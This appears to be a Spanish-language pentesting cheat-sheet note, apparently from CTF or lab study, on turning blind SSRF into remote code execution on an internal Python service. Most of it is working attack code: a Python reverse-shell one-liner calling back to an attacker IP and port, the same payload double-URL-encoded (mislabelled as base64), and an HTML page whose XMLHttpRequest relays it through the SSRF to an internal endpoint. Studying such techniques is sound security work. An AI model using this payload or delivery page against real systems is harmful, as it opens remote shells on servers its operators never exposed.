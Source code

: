 

HTML + Python Rverse shell

>[!note]
>Esto se utiliza siempre y cuando:
>- la pagina principal es vulnerable a SSRF.
>- La pagina interna es vulnerable a RCE.
>- El servidor interno interpreta Python.

```bash
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

# en base64
export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
```

```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```

- pagina principal: http://internal.app.local/load?q
- pagina interna: http::////127.0.0.1:5000/runme?x

>[!tip]
>No ovidemos codiicar la carga en URLencoded una vez por acda host que atravesemos

URL:

```http
http://<SERVICE IP>:PORT/x?=viaimgtag
```

EJEMPLOS BUG BOUNTY

- [https://www.youtube.com/watch?v=WiJfG4Ch8p8](https://www.youtube.com/watch?v=WiJfG4Ch8p8)
